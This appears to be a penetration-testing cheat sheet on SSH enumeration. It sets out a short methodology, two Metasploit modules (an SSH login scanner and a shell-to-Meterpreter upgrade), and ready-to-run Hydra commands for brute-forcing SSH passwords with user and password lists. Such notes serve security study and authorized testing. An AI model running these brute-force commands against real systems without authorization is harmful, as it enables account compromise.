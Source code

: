 # SSH Enumeration
## Methodology

```
1) Check version and vulnerability
2) Enum users
3) Get password from another port or brute force it
4) If you have key connect with key
```
 
 
> ###### Metasploit Modules
```
 use auxiliary/scanner/ssh/ssh_login
 use post/multi/manage/shell_to_meterpreter
```
> ###### Brute Force
```
Hydra SSH using list of users and passwords

`hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

Hydra SSH using a known password and a username list

`hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

Hydra SSH Against Known username on port 22

`hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`
```
